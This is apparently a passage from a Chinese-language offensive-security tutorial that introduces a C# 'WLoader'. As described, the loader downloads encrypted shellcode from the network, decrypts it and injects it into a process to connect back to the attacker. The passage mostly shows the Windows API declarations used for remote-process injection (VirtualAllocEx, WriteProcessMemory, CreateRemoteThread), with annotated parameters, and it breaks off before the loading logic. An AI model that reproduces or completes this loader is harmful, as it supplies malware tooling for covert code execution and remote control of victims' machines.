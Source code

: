 ```python
```

#### 二、C#编写Loader

**客户端：Loder从网络加载Shellcode（随机生成key去请求shellcode） -> 解密 -> 创建进程 运行上线**

```c
//WLoader C#
using System;
using System.Security.Cryptography;
using System.IO;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;
using System.Collections.Generic;
using System.Linq;
using System.Diagnostics;

namespace Wloader
{
    class Program
    {
        // Used to Load Shellcode into Memory:
        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32.dll")] //声明API函数
        public static extern int VirtualAllocEx(
            IntPtr hProcess, //进程的句柄.该函数在此进程的虚拟地址空间内分配内存
            int lpAddress,//该指针为要分配的页面区域指定所需的起始地址
            UInt32 dwSize,//要分配的内存区域的大小，以字节为单位
            UInt32 flAllocationType,//内存分配的类型 ,MEM_COMMIT为指定的保留内存页面分配内存
            UInt32 flProtect);//对要分配的页面区域的内存保护,PAGE_EXECUTE_READWRITE
        //该地址必须是页面属性为PAGE_EXECUTE_READWRITE的页面）或者其他宿主进程能执行地方（如共享内存映射区）

        [DllImport("kernel32.dll")]
        public static extern int WriteProcessMemory(
            IntPtr hProcess,    //要修改的过程存储器的句柄
            int lpBaseAddress, //指向要写入数据的指定进程中的基地址的指针
            byte[] lpBuffer, //指向缓冲区的指针，该缓冲区包含要在指定进程的地址空间中写入的数据
            int nSize,//要写入指定进程的字节数 
            int lpNumberOfBytesWritten);//指向变量的指针，该变量接收传输到指定进程中的字节数;(可选)为NULL则忽略

        [DllImport("kernel32.dll")]
        public static extern int GetProcAddress(int hwnd, string lpname);

        [DllImport("kernel32.dll")]
        public static extern int GetModuleHandleA(string name);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateRemoteThread(
            IntPtr hProcess,//目标进程的句柄
            UInt32 lpThreadAttributes, //指向线程的安全描述结构体的指针，一般设置为NULL，表示默认安全级别
            UInt32 dwStackSize,//线程堆栈大小，一般设置为0，表示使用默认大小
            UInt32 lpStartAddress,//线程函数的地址
            IntPtr lpParameter,//线程参数
            UInt32 dwCreationFlags,//线程的创建方式，CREATE_SUSPENDED 线程以挂起方式创建
            ref UInt32 lpThreadId); //输出参数，记录创建的远程线程的ID
        

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
          IntPtr hHandle,
          UInt32 dwMilliseconds
```